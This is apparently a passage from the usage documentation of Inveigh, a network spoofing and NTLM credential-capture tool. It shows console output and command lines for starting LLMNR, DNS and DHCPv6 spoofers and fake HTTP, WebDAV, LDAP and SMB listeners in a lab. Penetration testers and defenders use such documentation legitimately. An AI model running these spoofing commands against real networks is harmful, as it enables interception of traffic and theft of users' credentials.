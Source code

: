 ```
[+] DNS Packet Sniffer [Type A]
[-] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[-] MDNS
[-] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[-] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[-] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Users\dev\source\repos\Inveigh\Inveigh\bin\Debug\net35]
[+] Previous Session Files [Imported]
[*] Press ESC to enter/exit interactive console
```
### Listener Only Mode (disabled packet sniffer)
```
.\Inveigh.exe -sniffer n
[*] Inveigh 2.0 [Started 2021-06-14T10:48:16 | PID 20368]
[-] Packet Sniffer
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 10.10.2.111 | IPv6 fe80::3d3b:b73c:c43e:ed4e%2]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[-] DHCPv6
[+] DNS Listener [Type A]
[-] ICMPv6
[+] LLMNR Listener [Type A]
[-] MDNS
[-] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[-] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[-] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Listener [Port 445]
[+] File Output [C:\Users\dev\source\repos\InveighZero\Inveigh\bin\Debug\net35]
[+] Previous Session Files [Imported]
[*] Press ESC to enter/exit interactive console
[!] Failed to start SMB listener on port 445, check IP and port usage.
[!] Failed to start SMB listener on port 445, check IP and port usage.
```
Note, with the packet sniffer disabled, Inveigh will attempt to start SMB listeners for IPv4 and IPv6. On most windows systems, port 445 will already be in use. Either ignore error or add `-smb n`.

### <a name="DHCPv6"></a>DHCPv6

Start DHCPv6 spoofer and IPv6 DNS spoofer. Note, DNS is on by default.
```
.\Inveigh.exe -dhcpv6 y
...
[+] DHCPv6 Listener [MAC 52:54:00:FF:B5:53]
[+] DNS Listener [Type A]
...
[+] [23:03:06] DHCPv6 [solicitation] from fe80::bd92:a800:60d0:8deb%2(test-wks1.lab.inveigh.org) [response sent]
[+] [23:03:06] DHCPv6 [fe80::1348:1] advertised to [00:0C:29:F0:6E:16]
[+] [23:03:06] DHCPv6 [request] from fe80::bd92:a800:60d0:8deb%2(test-wks1.lab.inveigh.org) [response sent]
[+] [23:03:06] DHCPv6 [fe80::1348:1] leased to [00:0C:29:F0:6E:16]
```
Start DHCPv6 spoofer and spoof DNS requests for internal domain only.
```
.\Inveigh.exe -dhcpv6 y -replytodomains lab.inveigh.org
```